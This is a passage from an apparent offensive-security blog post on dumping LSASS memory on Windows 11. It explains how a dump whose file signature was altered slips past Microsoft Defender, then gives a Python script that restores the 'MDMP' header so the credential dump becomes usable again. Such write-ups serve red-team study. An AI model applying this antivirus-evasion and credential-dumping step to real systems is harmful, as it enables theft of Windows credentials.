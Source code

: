 ![](/assets/posts/2024-06-03-LSASS-Dumping-Windows11-Part2/bypassed_defender_lsass_write.bmp)

After running the updated code, we observe that Defender no longer flags the file when it is written to disk. We can then transfer this file back to our Kali machine and use a Python script to restore the first 4 bytes, thereby reestablishing the correct LSASS dump. Below, I have provided the Python script that restores the MDMP file signature to test.txt.

```py

import argparse

def replace_first_four_bytes(input_file_path, output_file_path, new_bytes):
    # Ensure new_bytes is exactly 4 bytes long
    if len(new_bytes) != 4:
        raise ValueError("new_bytes must be exactly 4 bytes long")
    
    with open(input_file_path, 'rb') as input_file:
        data = input_file.read()

    # Replace the first four bytes
    modified_data = new_bytes + data[4:]

    with open(output_file_path, 'wb') as output_file:
        output_file.write(modified_data)
        print(f"Replaced first four bytes with {new_bytes.decode('utf-8')} and saved to file: {output_file_path}")

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Replace the first four bytes of a file with "MDMP" and save as a new file.')
    parser.add_argument('input_file_path', type=str, help='Path to the input file')
    parser.add_argument('output_file_path', type=str, help='Path to the output file')
    args = parser.parse_args()

    input_file_path = args.input_file_path
    output_file_path = args.output_file_path
    new_bytes = b"MDMP"  # The new bytes to write at the beginning of the file

    replace_first_four_bytes(input_file_path, output_file_path, new_bytes)
```
```bash
```